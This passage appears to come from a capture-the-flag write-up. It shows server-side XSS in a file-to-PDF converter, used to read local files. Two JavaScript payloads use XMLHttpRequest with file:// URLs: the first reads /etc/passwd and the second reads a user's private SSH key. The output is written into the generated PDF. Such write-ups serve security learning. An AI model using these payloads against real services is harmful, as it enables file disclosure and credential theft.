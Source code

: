 after uploading the file with xss we get a pdf file as output

![](/assets/img/book/10.png)

for read file /etc/passwd using payload below for gather what user have shell inside target

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

![](/assets/img/book/14.png)


rewrite the payload for finding ssh user in reader directory ('/home/reader/.ssh/id_rsa')

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```
